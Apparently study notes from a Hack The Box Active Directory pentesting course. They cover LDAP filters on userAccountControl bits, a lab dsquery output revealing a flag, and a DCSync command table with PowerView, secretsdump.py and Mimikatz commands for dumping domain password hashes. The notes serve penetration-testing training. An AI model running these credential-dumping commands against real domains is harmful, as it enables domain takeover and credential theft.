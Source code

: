 The above example sets the first criteria that the object must be a user and combines it with searching for a UAC bit value of 64 (Password Can't Change). A user with that attribute set would match the filter. You can take this even further and combine multiple attributes like `(&(1) (2) (3))`. The `!` (not) and `|` (or) operators can work similarly. For example, our filter above can be modified as follows:
`(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))`

This would search for any user object that does `NOT` have the Password Can't Change attribute set. When thinking about users, groups, and other objects in AD, our ability to search with LDAP queries is pretty extensive.

A lot can be done with UAC filters, operators, and attribute matching with OID rules. For now, this general explanation should be sufficient to cover this module. For more information and a deeper dive into using this type of filter searching, see the [Active Directory LDAP](https://academy.hackthebox.com/course/preview/active-directory-ldap) module.

We have now used our foothold to perform credentialed enumeration with tools on Linux and Windows attack hosts and using built-in tools and validated host and domain information. We have proven that we can access internal hosts, password spraying, and LLMNR/NBT-NS poisoning works and that we can utilize tools that already reside on the hosts to perform our actions. Now we will take it a step further and tackle a TTP every AD pentester should have in their toolbelt, `Kerberoasting`.


# HTB Practice
```
PS C:\tools> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr samaccountname description
>>
  samaccountname          description
  guest                   Built-in account for guest access to the computer/domain
  krbtgt                  Key Distribution Center Service Account
  bross                   HTB{LD@P_I$_W1ld}
  $725000-9jb50uejje9f
  sm_752cbd23e73649258
  sm_8b3ff26494d94da89
  sm_434e56f7c43f4534a
  sm_51dc5f77b78546d7b
  sm_c6ccf50003bf4310b
  sm_c7c8c6f5727449fbb
  sm_925f7acdff9344408
  sm_820598b3d6c548a08
  sm_8f47aca8186c4f0da
```


# DCSync 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-DomainUser -Identity adunn  \| select samaccountname,objectsid,memberof,useraccountcontrol \|fl` | PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host. |
| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host. |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |
| `Get-DomainUser -Identity * \| ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} \|select samaccountname,useraccountcontrol` | Checking for Reversible Encryption Option using Get-DomainUser |
